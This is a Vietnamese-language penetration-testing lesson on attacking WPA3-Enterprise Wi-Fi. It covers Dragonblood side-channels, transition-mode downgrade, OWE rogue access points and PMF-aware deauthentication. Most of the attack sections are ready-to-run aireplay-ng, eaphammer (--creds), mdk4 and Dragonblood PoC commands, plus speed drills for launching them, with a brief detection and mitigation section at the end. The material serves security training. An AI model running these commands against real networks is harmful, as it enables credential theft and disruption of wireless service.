

> **Prerequisites**: [[01-8021x-eap-radius-architecture|01. 802.1X/EAP/RADIUS Architecture]] · [[02-eap-methods-deep-dive|02. EAP Methods Deep-Dive]]
> **Objectives**:
> - Hiểu những cải tiến bảo mật của WPA3 và tại sao vẫn có attack surface
> - Nắm cơ chế Dragonblood vulnerabilities trong EAP-PWD/SAE
> - Thực hiện downgrade attack từ WPA3 về WPA2
> - Hiểu OWE (Opportunistic Wireless Encryption) và attack vectors của nó

---

## Điều kiện khai thác

> [!note] Điều kiện bắt buộc
> - Target network dùng WPA3-Enterprise hoặc WPA3-Transition mode
> - EAP-PWD hoặc SAE được dùng cho authentication
> - Firmware chưa vá Dragonblood vulnerabilities (2019)
> - Hoặc: WPA3-Transition mode cho phép WPA2 fallback

> [!warning] WPA3 khó tấn công hơn đáng kể
> WPA3 được thiết kế để khắc phục nhiều điểm yếu của WPA2. Nhiều attacks ở đây yêu cầu unpatched firmware hoặc misconfigured transition modes. Trên modern, fully patched WPA3 systems → attack surface rất hẹp.

---

## Cơ chế tấn công

### WPA3 Improvements over WPA2

WPA3 (IEEE 802.11ax) ra đời năm 2018, mandatory từ 2020 với 4 cải tiến chính:

| Feature | WPA2 | WPA3 |
|---------|------|------|
| Authentication | PSK | **SAE** (Simultaneous Authentication of Equals) |
| Forward Secrecy | Không | **Có** — per-session keys |
| Mgmt Frame Protection | Optional | **Mandatory (PMF)** |
| Open Network | Unencrypted | **OWE** (Opportunistic Wireless Encryption) |

**WPA3-Enterprise** thêm:
- **192-bit security mode** (CNSA suite) cho highest security
- EAP-TLS và EAP-PWD là preferred methods
- Mandatory PMF (Protected Management Frames)

### SAE — Simultaneous Authentication of Equals

SAE (dựa trên Dragonfly key exchange) thay PSK trong WPA3-Personal. Không có PSK handshake offline crack nữa. Tuy nhiên, **Dragonblood vulnerabilities (CVE-2019-9494, CVE-2019-9496)** expose side-channel attacks:

**Dragonblood Attacks:**
1. **Cache-based side-channel**: Attacker observe cache access timing để leak info về password bits
2. **Timing-based side-channel**: Timing của crypto operations leak info
3. **Downgrade attack**: Force WPA3-capable device về WPA2 (xem dưới)

### EAP-PWD — Dragonfly trong WPA3-Enterprise

**EAP-PWD** (RFC 5931) dùng Dragonfly key exchange để authenticate bằng password mà không bao giờ truyền password hay hash. Được dùng trong WPA3-Enterprise.

**Dragonblood EAP-PWD vulnerabilities (2019)**:

```
CVE-2019-9494: Cache side-channel trong Dragonfly handshake
    → Leak enough bits để offline dictionary attack
CVE-2019-9496: Timing side-channel
    → Similar information leak qua timing measurements
```

**Attack flow** (unpatched systems):

```
Attacker collect EAP-PWD handshakes từ multiple clients:
  → Time crypto operations precisely
  → Collect timing data / cache access patterns
  → Offline analysis → determine password bits
  → Dictionary attack với leaked bits làm filtering criteria
```

### OWE — Opportunistic Wireless Encryption

**OWE** (RFC 8110) cung cấp encrypted open network — không cần password nhưng traffic được mã hóa. Được dùng như replacement cho open networks.

**OWE Attack Vectors:**
- **OWE Transition Mode**: Network broadcast cả open SSID (legacy) VÀ OWE SSID. Legacy SSID là unencrypted → clients connect vào legacy = no encryption.
- **Rogue OWE AP**: Attacker tạo OWE AP với cùng SSID → MITM (traffic encrypted đến attacker, không đến legit AP)

### WPA3-Transition Mode (Downgrade Attack)

Nhiều tổ chức deploy WPA3 ở **transition mode** để backward compatibility với WPA2 clients. Cùng SSID serve cả WPA2 và WPA3. **Downgrade attack**:

```bash
# Force WPA2 clients để kết nối vào WPA2 variant:
# Deauth từ WPA3 AP → client probe → Rogue AP offer WPA2 only → client connect WPA2
# Sau đó: WPA2 evil twin attacks như Lessons 04-06 đều áp dụng
```

---

## Quy trình tấn công

### Attack 1 — WPA3-Transition Mode Downgrade

**Bước 1 — Identify WPA3-Transition mode**

```bash
sudo airodump-ng wlan0mon
# Tìm APs với cả WPA2 và WPA3 flagging, hoặc:
sudo airodump-ng wlan0mon -w /tmp/scan
# Trong Wireshark: filter eapol; kiểm tra RSN Information Element
# WPA3-Transition: RSN IE chứa cả SAE và PSK suite selectors
```

**Bước 2 — Deauth từ WPA3 AP và setup WPA2-only Rogue AP**

```bash
# Deauth targeted clients khỏi legit AP:
sudo aireplay-ng -0 0 -a <BSSID> wlan1mon

# EAPHammer với WPA2 (clients sẽ try connect WPA2):
./eaphammer -i wlan0 --bssid <BSSID> --essid <ESSID> --channel <CH> \
    --wpa 2 --auth peap --creds
```

> **Expected**: WPA3-transition clients có thể fallback về WPA2 → normal PEAP attack áp dụng.

### Attack 2 — EAP-PWD Evil Twin

```bash
# EAPHammer hỗ trợ EAP-PWD:
./eaphammer -i wlan0 --bssid <BSSID> --essid <ESSID> --channel <CH> \
    --wpa 3 --auth eap-pwd --creds
```

> **Expected**: Capture EAP-PWD handshake. Trên unpatched systems → có thể offline crack.

### Attack 3 — OWE Transition Mode Attack

```bash
# EAPHammer hỗ trợ OWE rogue AP:
./eaphammer -i wlan0 --essid <ESSID> --channel <CH> \
    --auth owe --creds

# OWE-Transition attack (target legacy clients):
./eaphammer -i wlan0 --essid <ESSID> --channel <CH> \
    --auth open --captive-portal
```

### Attack 4 — Dragonblood Tool (EAP-PWD Side-Channel)

```bash
# Dragonblood PoC tools (academic/research):
git clone https://github.com/vanhoefm/dragonblood.git
cd dragonblood

# Collect EAP-PWD handshakes:
sudo python3 eap_pwd_attack.py -i wlan0mon -e <ESSID>

# Analyze timing data:
python3 analyze_timing.py captures/eap_pwd_timing.json

# Offline dictionary attack với leaked info:
python3 crack_eap_pwd.py --timing captures/ --wordlist rockyou.txt
```

> [!warning] Dragonblood PoC limitations
> Dragonblood tools require very precise timing measurements. Effectiveness depends heavily on target hardware và firmware version. Most major vendors (Qualcomm, Intel, Broadcom) đã patch CVE-2019-9494/9496 từ 2019–2020.

---

## Biến thể & Bypass

### WPA3 Enterprise với PMF Bypass

WPA3 bắt buộc PMF (Protected Management Frames) — deauth frames phải signed. **Bypass**:

```bash
# EAPHammer hỗ trợ 802.11w (PMF):
./eaphammer -i wlan0 --bssid <BSSID> --essid <ESSID> --channel <CH> \
    --wpa 3 --auth peap --creds --pmf
# Flag --pmf enable PMF-capable deauth (requires compatible adapter)

# mdk4 PMF bypass attack:
mdk4 wlan0mon d -B <BSSID> -c <CH> -P  # -P = PMF-aware deauth
```

### EAP-FAST trong WPA3 context

Một số WPA3-Enterprise deployments vẫn dùng EAP-FAST với MSCHAPv2 inner:

```bash
./eaphammer -i wlan0 --essid <ESSID> --channel <CH> \
    --auth eap-fast --creds
```

---

## Cây quyết định



---

## Command Cheatsheet

**WPA3 Identification**

```bash
# Identify WPA3 trong airodump
sudo airodump-ng wlan0mon | grep -i "SAE\|WPA3"

# Wireshark — check RSN IE for SAE
# Filter: wlan.fc.type_subtype == 8 (beacon) và check RSN Information Element
tshark -r scan.cap -Y "wlan.fc.type_subtype==8" -T fields -e wlan.rsn.akms.type
# AKM type 8 = SAE (WPA3-Personal), type 12 = SAE-ext, type 5 = WPA-EAP-SHA256
```

**WPA3 Downgrade**

```bash
# Deauth WPA3 AP + setup WPA2 Rogue (same SSID):
sudo aireplay-ng -0 0 -a <WPA3_BSSID> wlan1mon
./eaphammer -i wlan0 --bssid <BSSID> --essid <ESSID> --channel <CH> --wpa 2 --auth peap --creds
```

**EAP-PWD Attack**

```bash
# EAPHammer WPA3 EAP-PWD
./eaphammer -i wlan0 --bssid <BSSID> --essid <ESSID> --channel <CH> \
    --wpa 3 --auth eap-pwd --creds

# Dragonblood (unpatched firmware)
git clone https://github.com/vanhoefm/dragonblood.git
python3 eap_pwd_attack.py -i wlan0mon -e <ESSID>
```

**OWE Attack**

```bash
# OWE rogue AP
./eaphammer -i wlan0 --essid <ESSID> --channel <CH> --auth owe --creds

# OWE transition — target legacy clients
./eaphammer -i wlan0 --essid <ESSID> --channel <CH> --auth open --captive-portal
```

**PMF-aware deauth**

```bash
# mdk4 với PMF support
mdk4 wlan0mon d -B <BSSID> -c <CH> -P

# EAPHammer PMF flag
./eaphammer -i wlan0 --essid <ESSID> --channel <CH> --wpa 3 --auth peap --creds --pmf
```

---

## Daily Drill

**Thời gian**: 20 phút/ngày trong 7 ngày đầu.

**Drill 1 — WPA3 identification**
Mục tiêu: identify WPA3 vs WPA2 từ airodump output trong 10 giây.

```bash
sudo airodump-ng wlan0mon
# WPA2: ENC=CCMP, AUTH=PSK hoặc MGT
# WPA3: ENC=CCMP, AUTH=SAE hoặc WPA3
# Transition: cả PSK + SAE listed
```

Luyện cho đến khi: biết ngay khi nhìn output.

**Drill 2 — Downgrade attack command**
Mục tiêu: WPA3-Transition target → launch downgrade attack trong 30 giây.

```bash
# Deauth + WPA2 rogue AP
sudo aireplay-ng -0 0 -a <BSSID> wlan1mon &
./eaphammer -i wlan0 --bssid <BSSID> --essid <ESSID> --channel <CH> --wpa 2 --auth peap --creds
```

Luyện cho đến khi: 2-command sequence tự nhiên.

**Drill 3 — Decision: WPA3 attack path**
Mục tiêu: nhìn WPA3 target và quyết định attack path trong 15 giây.

```
WPA3-Transition → Downgrade → WPA2 evil twin
WPA3-Only EAP-PWD + unpatched → dragonblood
WPA3-Only EAP-TLS → no easy attack
WPA3 + PMF → mdk4 -P deauth
```

---

## Phát hiện & Phòng thủ

> [!warning] Detection Indicators
> **Downgrade attempt**: Clients đột ngột reconnect qua WPA2 thay vì WPA3 → policy violation alert.
> **Rogue AP với lower security**: WIDS phát hiện AP cùng SSID nhưng offer WPA2 thay WPA3.
> **Dragonblood timing**: Rất khó detect passively — firmware patches là defense chính.

> [!note] Mitigation
> - **Patch firmware**: Dragonblood CVEs có patches từ 2019; update tất cả APs và supplicants
> - **Disable WPA3-Transition mode** khi có thể — force WPA3-only nếu tất cả clients support
> - **WPA3-Enterprise 192-bit mode**: Dùng cho high-security environments (CNSA compliance)
> - **EAP-TLS thay vì EAP-PWD**: Certificate-based thay vì password-based trong WPA3-Enterprise
> - **Monitor for WPA2 fallback**: Alert khi WPA3-capable devices connect qua WPA2

---

## Lab Thực hành

| Platform | Machine/Module | Tại sao phù hợp |
|----------|---------------|----------------|
| HTB Academy | **Attacking WPA3** | Dedicated WPA3 attack labs (SAE, OWE, EAP-PWD) |
| HTB Academy | **Wi-Fi Penetration Testing Tools & Techniques** | WPA3 tools coverage |
| Local VM | Kali + hostapd WPA3 config + victim | Setup WPA3-Transition lab |

---

## Field Manual Entry

> [!abstract] WPA3 Enterprise Attacks — Quick Reference
> **Điều kiện**: WPA3 network; check transition mode, EAP method, firmware patch status
> **Downgrade**: Deauth WPA3 AP + `./eaphammer -i wlan0 --wpa 2 --auth peap --creds`
> **EAP-PWD**: `./eaphammer -i wlan0 --wpa 3 --auth eap-pwd --creds` (unpatched only)
> **PMF deauth**: `mdk4 wlan0mon d -B <BSSID> -c <CH> -P`
> **Look for**: WPA3-Transition mode → highest value target (easy downgrade)
> **Ref**: [[09-wpa3-eap-pwd-owe|09. WPA3 Enterprise: EAP-PWD & OWE Attacks]]
